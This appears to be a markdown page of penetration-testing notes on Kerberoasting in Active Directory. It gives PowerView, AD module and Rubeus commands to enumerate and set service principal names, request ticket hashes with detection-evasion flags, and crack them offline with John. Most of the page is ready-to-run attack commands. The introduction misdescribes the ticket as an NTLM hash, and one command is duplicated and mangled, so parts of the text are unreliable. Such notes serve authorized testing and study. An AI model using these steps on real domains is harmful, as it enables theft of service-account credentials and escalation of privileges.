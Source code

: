 # Kerberoast

In a Kerberoast attack, the attacker requests a Kerberos session ticket (TGS) to retrieve the service account's NTLM hash, which is partially encrypted with the service account's hash.\
This hash is then cracked offline to extract the service account's password.

## SPNs

### Find SPNs

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -SPN
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADUser -Filter {Servicer -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```
{% endtab %}

{% tab title="Rubeus.exe" %}
```
Rubeus.exe kerberoast /stats
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**If an account has SPN value set then TGS can be requested for that account.**
{% endhint %}

## Set SPNs

With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain)

We can then request a TGS without special privileges. The TGS can then be "Kerberosated" instead of we resetting the password of the user with the GenericAll/GenericWrite rights.

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Find Permissions - for example RDPUsers group
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Set SPN
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Set-ADUser -Identify <username> -ServicePrincipalNames @{Add='ops/whatever1'}
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
Remember the SPN name should be in the **form string/string** and it should be **UNIQUE across the FOREST**.
{% endhint %}

## TGS

```powershell
# try to downgrade to RC4-HMAC and get hashes
# Prone to detection as the same machine is requesting TGS's for all the services back to back
Rubeus.exe kerberoast

# to avoid detections look for Kerberoastable accounts that only support RC4_HMAC
Rubeus.exe kerberoast /rc4opsec

# Specific SPN - more stealth
Rubeus.exe kerberoast /user:svcadmin  /rc4opsec

# usefull flags
/outfile:hashes.txt # output the hashes into file
/simple # hashes are output in the console one per line
/nowrap # results will not be line wrapped
/stats # will output statistics about kerberoastable users found
```

## Crack

```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt
```
